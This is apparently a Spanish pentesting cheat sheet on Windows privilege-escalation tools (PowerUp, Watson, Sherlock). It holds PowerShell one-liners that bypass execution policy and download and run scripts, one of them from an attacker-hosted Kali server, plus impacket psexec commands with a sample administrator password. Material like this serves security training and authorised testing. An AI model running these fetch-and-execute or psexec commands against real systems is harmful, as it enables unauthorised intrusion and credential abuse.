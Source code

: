 ## Herramientas Automatizadas

### PowerUp
[PowerUP](https://github.com/PowerShellMafia/PowerSploit)

Dentro de la carpeta privesc del repositorio.

```bash
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

Otra forma:

```bash
nano PowerUp.ps1

# agrego la siguiente linea al final

invoke-allChecks

python -m SimpleHTTPServer

# desde la powershell de windows

IEX(New-Object Net.WebClient).downloadString('http://<IP kali>:8000/PowerUp.ps1')
```

A veces te da resultado de contraseñas de algun usuario en texto claro, puedes testear de la sigueinte manera:

Con impacket:

```bash
psexec.py <DOMINIO>/<USUARIO>:<PASSWORD>@<IP WINDOWS> cmd.exe

psexec.py WORDGROUP/administrator:HolaMundo\!@10.10.10.125 cmd.exe
```

Nota: Es necesario escapar los caracteres especiales de la contraseña.

### Watson

[Watson](https://github.com/rasta-mouse/Watson)

Binario ya compilados [aqui](https://github.com/Marshall-Hallenbeck/compiled_binaries)

```bash
C:\> Watson.exe
```

### Sherlock (Deprecated)

[Sherlock](https://github.com/rasta-mouse/Sherlock)

Es bueno conocerlo pero el mas actualizado es Watson del mismo autor (RastaMouse)
